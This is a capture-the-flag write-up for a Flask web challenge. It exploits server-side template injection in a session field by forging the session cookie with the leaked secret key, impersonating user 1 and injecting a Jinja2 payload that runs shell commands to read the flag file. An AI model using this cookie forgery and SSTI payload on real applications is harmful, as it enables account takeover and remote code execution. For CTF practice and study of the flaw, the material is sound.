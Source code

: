 # Rose - Web Exploitation

## Ideas
In this challenge, participants are provided with a website along with its corresponding source code. The website was builded with flask and have a SSTI vulnerability in `/dashboard` route with SSTI injection in session `name`.

```python
@main.route('/dashboard')
@login_required
def dashboard():
    template = '''
{% extends "base.html" %} {% block content %}
<h1 class="title">
    Welcome, '''+ session["name"] +'''!
</h1>
<p> The dashboard feature is currently under construction! </p>
{% endblock %}
'''
    return render_template_string(template)
```

To access the `/dashboard` route, we need to authenticated to the website first, but no credentials is provided in the source code. 
To reach this, we can run the code in our local machine (with uncomment signup route), after that signup and login to get our cookie and session

```bash
➜ export FLASK_APP=__init__.py 
➜ flask run
 * Serving Flask app '__init__.py'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit

```

Session Cookie:
```
.eJwljjkOQjEMRO-SmsKO4yX_MshJHEEBxV8qxN2JRDczb4r3Sfe5x_FI27lfcUv350hbGixknbLhwBxg2tQLttHWIKhKlVqU6gpq3S2GaK4COdy4d50xp9EAhm5EDMyKtQM6SSkLOIEJu7MaVpyj8QTx6tNkfbRjWiLXEfvfJq_69leseMZxpu8PAt0ydA.ZNo-gw.FIa3S3O44bYHbwRjGnjA-Gt38lM
```

We can decode the session cookie with flask-unsign (https://pypi.org/project/flask-unsign/)

```bash
➜ flask-unsign --decode --cookie ".eJwljjkOQjEMRO-SmsKO4yX_MshJHEEBxV8qxN2JRDczb4r3Sfe5x_FI27lfcUv350hbGixknbLhwBxg2tQLttHWIKhKlVqU6gpq3S2GaK4COdy4d50xp9EAhm5EDMyKtQM6SSkLOIEJu7MaVpyj8QTx6tNkfbRjWiLXEfvfJq_69leseMZxpu8PAt0ydA.ZNo-gw.FIa3S3O44bYHbwRjGnjA-Gt38lM"
{'_fresh': True, '_id': 'd5638c3281d12e087b7a41bdb81d6177393be49a7078ca8ed6729602ea85cc7feff83d050c8335055719c01a364483da30865aa578191fdb5f06a9af861a37c1', '_user_id': '2', 'name': 'test'}
```

After that, tamper the session name to SSTI payload with the provided `SECRET_KEY` in source code

```bash
➜ flask-unsign --sign --cookie "{'_fresh': True, '_id': 'd5638c3281d12e087b7a41bdb81d6177393be49a7078ca8ed6729602ea85cc7feff83d050c8335055719c01a364483da30865aa578191fdb5f06a9af861a37c1', '_user_id': '1', 'name': '{{[].__class__.__mro__[1].__subclasses__()[502](request.args.cmd,shell=True,stdout=-1).communicate()}}'}" --secret 'SuperDuperSecureSecretKey1234!'
.eJwlj8FuwyAQRP-FkyOlFhjDQqT8RW9WhBZYmkh2rIA5Wf734vY282YOMztzKVN5stuWK12Ze0V2Y1FpaYIcjIhiIG7AA47CR9-AFgDSSk-jReBgAhqKGgar-UBoVAiQKCUjI1c8GCkVVwqEDVyg1OPYApTcaIWowAgrUvQqcY0Wk9GtA0GwNqQWyv9rTvvGhZrc9-nROxdmLMW5ppa8OjeJE5bq_zi1pLtMig-PLtOnUtl6zD-lD0u8lifN8_37_Fq2uNbt_iUufViXpb5fATfqLsfBjl8pqVW0.ZNpCxQ.kwGtIvnYiY8htYIQEiE7_CGPIKQ
```

SSTI Payload:
```
{{[].__class__.__mro__[1].__subclasses__()[502](request.args.cmd,shell=True,stdout=-1).communicate()}}
```

After that, request to `/dashboard` route with signed session cookie and grab the flag
```bash
➜ curl "https://nessus-rose.chals.io/dashboard?cmd=cat+/home/ctf/flag.txt" -H "Cookie: session=.eJwlj8FuwyAQRP-FkyOlFhjDQqT8RW9WhBZYmkh2rIA5Wf734vY282YOMztzKVN5stuWK12Ze0V2Y1FpaYIcjIhiIG7AA47CR9-AFgDSSk-jReBgAhqKGgar-UBoVAiQKCUjI1c8GCkVVwqEDVyg1OPYApTcaIWowAgrUvQqcY0Wk9GtA0GwNqQWyv9rTvvGhZrc9-nROxdmLMW5ppa8OjeJE5bq_zi1pLtMig-PLtOnUtl6zD-lD0u8lifN8_37_Fq2uNbt_iUufViXpb5fATfqLsfBjl8pqVW0.ZNpCxQ.kwGtIvnYiY8htYIQEiE7_CGPIKQ" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1439  100  1439    0     0    896      0  0:00:01  0:00:01 --:--:--   896
    Welcome, (b&#39;flag{wh4ts_1n_a_n4m3_4nd_wh4ts_in_y0ur_fl4sk}\n&#39;, None)!
```


## Flag

flag{wh4ts_1n_a_n4m3_4nd_wh4ts_in_y0ur_fl4sk}
